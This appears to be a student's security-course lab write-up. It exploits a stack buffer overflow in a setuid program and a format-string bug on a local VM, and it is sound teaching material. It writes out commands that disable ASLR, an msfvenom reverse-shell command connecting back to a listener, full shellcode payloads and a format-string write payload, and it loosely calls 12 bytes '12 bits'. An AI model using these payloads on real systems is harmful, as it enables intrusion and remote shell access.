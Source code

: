 Name : M. Alfandavi Aryo Utomo
Student ID : 35595108

#### 3. Buffer Overflow Vulnerability
Firstly, we setup the env
```
sudo sysctl -w kernel.randomize_va_space=0
```
![[Pasted image 20250910170141.png]]
Then, we compile the program
```
gcc -m32 -g -o stack -z execstack -fno-stack-protector stack.c
```
And change the privilege
```
chmod 4755 stack
```
![[Pasted image 20250910170324.png | 500]]
Then, we gdb the program (stack), and set breakpoint on 14 and 16 (before and after strcpy)
![[Pasted image 20250910170434.png | 500]]
Then, we try to run it as input AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
![[Pasted image 20250911185150.png | 500]]
When we disassemble the main program, we got the return address of bof function (0x565562a9) which lies on our buffer
![[Pasted image 20250910170616.png | 500]]
So we analyze that we can overwrite at most 60 characters, then we hit our return address, lets generate the msfvenom payload first
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f c -b '\x00\x0a\x0d\x20'
```
Here, we using additional `-b '\x00\x0a\x0d\x20'` argument to remove bad characters
1. \x00 because we dont want null byte
2. \x0a because we dont want newline
3. \x0d because we dont want carriage return
4. \x20 because we dont want space

After we generate it, we got the result
![[Pasted image 20250911181216.png | 500]]

so, we use this result to craft our payload, the structure is like below
`60x NOP_SLED + RETURN_ADDRESS + A_LOT_OF_NOP_SLED_AGAIN + MSFVENOM_PAYLOAD`

thus, we got this payload that we can test, but before testing, we need to turn on our listener first

![[Pasted image 20250911181511.png | 500]]

###### 3.1. Payload
run $(perl -e 'print "\x90"x60, "\x00\xcf\xff\xff","\x90"x96,"\xb8\xda\x11\xd8\x57\xdb\xc1\xd9\x74\x24\xf4\x5b\x29\xc9\xb1\x12\x31\x43\x12\x03\x43\x12\x83\x31\xed\x3a\xa2\xf4\xd5\x4c\xae\xa5\xaa\xe1\x5b\x4b\xa4\xe7\x2c\x2d\x7b\x67\xdf\xe8\x33\x57\x2d\x8a\x7d\xd1\x54\xe2\x77\x21\xa5\xfd\xef\x23\xa9\x10\xac\xaa\x48\xa2\x2a\xfd\xdb\x91\x01\xfe\x52\xf4\xab\x81\x37\x9e\x5d\xad\xc4\x36\xca\x9e\x05\xa4\x63\x68\xba\x7a\x27\xe3\xdc\xca\xcc\x3e\x9e"')

![[Pasted image 20250911185247.png]]
![[Pasted image 20250911182339.png]]here, we need to change our return address from "\x00\xcf\xff\xff" into "\x10\xce\xff\xff", then we craft new payload

run $(perl -e 'print "\x90"x60, "\x10\xce\xff\xff","\x90"x96,"\xb8\xda\x11\xd8\x57\xdb\xc1\xd9\x74\x24\xf4\x5b\x29\xc9\xb1\x12\x31\x43\x12\x03\x43\x12\x83\x31\xed\x3a\xa2\xf4\xd5\x4c\xae\xa5\xaa\xe1\x5b\x4b\xa4\xe7\x2c\x2d\x7b\x67\xdf\xe8\x33\x57\x2d\x8a\x7d\xd1\x54\xe2\x77\x21\xa5\xfd\xef\x23\xa9\x10\xac\xaa\x48\xa2\x2a\xfd\xdb\x91\x01\xfe\x52\xf4\xab\x81\x37\x9e\x5d\xad\xc4\x36\xca\x9e\x05\xa4\x63\x68\xba\x7a\x27\xe3\xdc\xca\xcc\x3e\x9e"')

and it works!
![[Pasted image 20250911185429.png | 500]]

Then, we can see on our listener server, if we got connection, then we can start our malicious activities here
![[Pasted image 20250911181909.png | 500]]
![[Pasted image 20250911181927.png | 500]]
Then this one answer first question successfully, but if we want to go further, we can just not use gdb, and wrap the run code as string, and add extra nop sleds in between (96 x 2 = 192)

./stack "$(perl -e 'print "\x90"x60, "\x10\xce\xff\xff","\x90"x192,"\xb8\xda\x11\xd8\x57\xdb\xc1\xd9\x74\x24\xf4\x5b\x29\xc9\xb1\x12\x31\x43\x12\x03\x43\x12\x83\x31\xed\x3a\xa2\xf4\xd5\x4c\xae\xa5\xaa\xe1\x5b\x4b\xa4\xe7\x2c\x2d\x7b\x67\xdf\xe8\x33\x57\x2d\x8a\x7d\xd1\x54\xe2\x77\x21\xa5\xfd\xef\x23\xa9\x10\xac\xaa\x48\xa2\x2a\xfd\xdb\x91\x01\xfe\x52\xf4\xab\x81\x37\x9e\x5d\xad\xc4\x36\xca\x9e\x05\xa4\x63\x68\xba\x7a\x27\xe3\xdc\xca\xcc\x3e\x9e"')"
![[Pasted image 20250911185527.png | 500]]
![[Pasted image 20250911185544.png  | 500]]
voila!


#### 4. Format String Vulnerability
- We got a program that had format string vulnerability, when we look at the code, we can see that theres no input validation or any limitations that prohibit us to insert special symbols (%x and %s), so we can proceed to exploit the program

- Our goal is changing the secret from FIT5003 -> QITq003
	- My student ID = 35595108 % 26 = 16 -> Q

- First thing first, we compile the program
```
gcc -m32 -o format_string format_string.c
```

- And we run the program
![[Pasted image 20250910143611.png | 400]]
The program ask us to insert a string, so when we input multiple %x's...
![[Pasted image 20250910143655.png | 500]]
it does print out a lot of important memory contents, and when we input 123, and trying to print it again, it does return like this 
![[Pasted image 20250910160201.png | 500]]
notice how 8th argument changed, from 3e8 (1000) into 7b (123), so we can see that 8th argument does hold our int_input variable
![[Pasted image 20250910160356.png | 500]]
so when we want to change the secret, we can just change the value pointed by our heap (started from 9th arg), and move by 4byte per char

our initial secret is FIT5003 -> QITq003 so we need to change first and fourth one, distance between them is 3 byte -> 12 bits, so we craft a payload such we can change them, lets do it like below

![[Pasted image 20250910161051.png | 500]]
our 9th argument is 60f4c1a0 (first address of secret or secret[0]), since we know our secret is using sizeof(int), we can just get our secret[3] address  = 60F4C1A0 + 12bits = 1626653100 or 60F4C1AC

so we can feed 1626653100 into our program as 2nd input, and for the last input, we want to directly change our secret, because we already got 2 pointers at our address
![[Pasted image 20250910161135.png | 500]]

we want to write 81 times character into 9th argument in our stack, and 31 times character into 8th argument in our stack, why these numbers?
1. 81 since in ascii 81th is Q
2. 31 since in ascii 113th is q then 113 - 81(from Q) - 1(from ;) = 31
```
%.81x%9$hhn;%.31x%8$hhn
```
and when we enter that input
![[Pasted image 20250910161610.png | 500]]
The secret is changed as we expected
